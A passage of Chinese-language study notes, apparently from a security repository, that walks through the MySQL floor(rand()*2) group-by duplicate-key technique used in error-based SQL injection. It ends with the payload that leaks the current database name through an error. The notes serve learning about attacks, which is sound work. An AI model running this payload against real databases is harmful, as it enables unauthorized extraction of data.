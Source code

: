 select floor(rand()*2);
生成0或1随机数

select floor(rand()*2)a;
取一个命令的别名：将select floor(rand()*2)这段命令取名为a

select * from table1 group by id;
以id来进行分组

select concat(1,2,3);
字符拼接

select password,count(*) as num from table1 group by password;
统计不同密码有多少个，统计数据命名为num，顺便按照password进行分组

0x3a      # :的意思

select concat('haha',0x3a,'nihao');
输出haha:nihao

select concat(0x3a,0x3a,(select database()),0x3a,0x3a)a;
::库名::

select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a;
```

![image-20220114195541612](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114195541612.png)

![image-20220114195624805](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114195624805.png)



```
select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns;
```

结果为无数个当前数据库的库名加随机的01和冒号



```
select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
```

**存在漏洞**



```
select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;
```

![image-20220114200215497](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114200215497.png)

![image-20220114200337126](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114200337126.png)

![image-20220114200450050](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114200450050.png)

报错：因为随机，所以可能出现一个情况是`concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a`时可能全为0，而排列时`group by a`可能全为1的结果，因此无法排序

```